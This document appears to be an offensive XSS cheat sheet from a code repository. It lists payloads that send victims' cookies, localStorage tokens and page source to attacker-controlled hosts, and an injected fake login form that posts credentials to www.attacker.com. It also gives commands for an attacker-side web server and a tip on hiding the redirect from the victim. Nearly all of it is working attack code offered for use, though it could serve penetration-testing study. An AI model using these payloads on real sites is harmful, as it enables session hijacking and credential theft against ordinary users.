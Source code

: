 Steal Cookies
-----------------------
```
# Will not work if HttpOnly is in cookie header (modern browsers will block this)
# Use ruby SSL server or apache with SSL enabled for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>
# Attack Script
<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```

Using XSS to Stealing Sensitive Data from LocalStorage (Untested but looks cool)
-----------------------
```
# https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0
<script>alert(JSON.stringify(localStorage))</script>
<img src=’https://xxx.xxx.xxx.xxx/yikes?jwt=’+JSON.stringify(localStorage);’--!>
```

Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Submits credentials to the www.attacker.com, technically this is HTML Injection (Embeds Login Screen inside application)
-----------------------
```
# php -S xxx.xxx.xxx.xxx:80
# or
# service apache2 start 
# tail -f /var/log/access.log

# Gets stuck on attackers page, do the following to resolve issue, victim may not notice the redirect :)
# In Apache, edit index.html to look like this 
# <meta http-equiv="refresh" content="0;url=https://victims.website.com/link-they-started-on/">

<h3>Please login to proceed</h3> <form action=http://www.attacker.com>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

Collect page source code (may contian sensitive data)
----------------------------
```
<script>new Image().src="https://www.attacker.com/bogus.php?output="+document.body.innerHTML</script>
```
